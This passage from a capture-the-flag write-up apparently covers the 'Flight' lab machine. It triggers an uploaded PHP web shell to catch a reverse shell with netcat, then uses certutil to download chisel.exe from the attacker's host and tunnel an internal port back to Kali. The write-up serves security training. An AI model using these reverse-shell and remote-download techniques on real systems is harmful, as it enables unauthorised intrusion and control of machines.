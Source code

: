 Now start our nc listener on Kali:

```shell
nc -lvnp 8443
```

After that, use the following URL to access our shell.php and trigger it:

```shell
http://10.129.228.120/shell.php
```

Nice! We got a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.228.120] 56823
SOCKET: Shell has connected! PID: 4692
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\flight.htb>whoami
flight\svc_apache
```

With the svc_apache account there is not much we can do, lets try to get access as another user.

### Using chisel.exe to forward port 8000 to our Kali
Enumerating the system we found the port 8000 running on the target, it didnt appear in our nmap scan.

Being the port 8000, I can try guessing its probably a website. Lets redirect it with chisel.exe:

```shell
# Move chisel.exe
# On Kali
python3 -m http.server 80

# On target CLI
certutil.exe -urlcache -split -f http://10.10.14.206/chisel.exe
```

Run chisel:

```shell
# On Kali
chisel server --reverse --port 51234

# On target CLI
powershell
.\chisel.exe client 10.10.14.206:51234 R:65432:127.0.0.1:8000
```

Lets now access it with our web browser:

```shell
http://127.0.0.1:65432
```

